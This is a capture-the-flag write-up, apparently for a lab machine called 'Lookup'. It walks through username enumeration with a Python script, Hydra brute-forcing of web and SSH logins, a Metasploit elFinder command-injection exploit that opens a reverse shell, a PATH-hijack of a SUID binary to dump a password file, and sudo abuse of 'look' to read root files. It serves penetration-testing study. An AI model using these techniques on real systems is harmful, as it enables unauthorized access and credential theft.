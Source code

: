**Difficulty:** Easy  
**Target IP:** 10.10.125.80

---

## 1. Reconnaissance

### `nmap` Scan

```bash
nmap -O -sV <IP_ADDRESS>
```

### Results:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

### Notes:

- SSH version is modern, likely no default creds or easy vuln—come back to this after web enumeration.
- Apache 2.4.41 might be vulnerable to certain older CVEs—add to research list.

---

## 2. Web Enumeration

**Access via hostname:**

- Target uses virtual hosts, so need to map `10.10.125.80` to `lookup.thm` in `/etc/hosts`.

- Navigating to `http://lookup.thm` presents a login portal.

### Subdomain Enumeration

```bash
gobuster dir -u http://10.10.125.80 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
```

**Results:**

- No useful directories found.

### Username enumeration script (Python):

```python
import requests
from multiprocessing import Pool

target = 'http://lookup.thm/login.php'
username_file = '/usr/share/wordlists/seclists/Usernames/Names/names.txt'

def user_check(name):
    data = {"username": name, "password": "password"}
    try:
        response = requests.post(target, data=data)
        if "Wrong password" in response.text:
            print(f"User found: {name}")
    except requests.RequestException as e:
        print(f"Request error for user {name}: {e}")

def main():
    with open(username_file, 'r') as f:
        users = [line.strip() for line in f]

    with Pool(processes=5) as pool:  # Limit to 5 processes at a time
        pool.map(user_check, users)

if __name__ == "__main__":
    main()
```

### Findings:

- Users found: `admin` and `jose`

---

## 3. Brute Force Login

```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-form-post "/login.php:username=^USER^&password=^PASS^:Wrong" -v 
```

**Result:**

```
[80][http-post-form] host: lookup.thm   login: jose   password: [REDACTED]
```

---

## 4. Exploitation

### Initial Access

- **Target Service**: `elFinder Web File Manager v2.1.47`

### Metasploit:

```bash
use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection

set RHOSTS files.lookup.thm
set RPORT 80
set LHOST <your tun0 IP>         # (e.g., 10.6.X.X)
set LPORT 4444
set TARGETURI /

run
```

### Outcome:

- Payload executed, reverse `meterpreter` shell obtained.

### Shell Stabilization:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

---

## 5. Privilege Escalation

### Current User:

```bash
whoami
> www-data

id
> uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### SUID binaries enumeration:

```bash
find / -perm -4000 -type f 2>/dev/null
```

### Notable Binaries Found:

- `/usr/sbin/pwm` (custom binary)

---

### Analyzing `/usr/sbin/pwm`

- Running `/usr/sbin/pwm` shows it looks for a `.passwords` file in the current user’s home.

- Trick `pwm` by prepending `/tmp` to `$PATH` and creating a fake `id` script in `/tmp` that spoofs user `think`.

```bash
export PATH=/tmp:$PATH
echo '#!/bin/bash' > /tmp/id
echo 'echo "uid=33(think) gid=33(think) groups=33(think)"' >> /tmp/id
chmod +x /tmp/id
/usr/sbin/pwm
```

- This dumps the contents of `/home/think/.passwords`, revealing a list of potential passwords.

---

## 6. SSH Brute Force (User: think)

Using discovered passwords from `.passwords`, brute-forced SSH for user `think` with Hydra.

### Credentials:

```
[22][ssh] host: lookup.thm   login: think   password: [REDACTED]
```

### Grab the user flag:

```bash
cat /home/think/user.txt
```

---

## 7. Sudo Privilege Escalation

### Check sudo permissions:

```bash
sudo -l
```

### Result:

```
User think may run the following commands on ip-10-10-125-80:
   (ALL) /usr/bin/look
```

### Exploit `/usr/bin/look` to read root flag:

```bash
sudo look '' /root/root.txt
```

---

## Notes:

- `$LFILE` in GTFObins examples is just a placeholder — replace it with the actual target path (e.g., `/root/root.txt`)
- Even without a full root shell, reading the root flag is enough to complete the box.
- Custom binaries with SUID should always be analyzed with `strings`, `file`, and path manipulation techniques.

---

## Lessons Learned:

- Enumeration is key — don't skip username fuzzing or assume one user is enough.
- SUID binaries may be more dangerous than they appear, especially custom ones.
- Always check what a binary depends on (`$PATH`, environment variables, etc.)
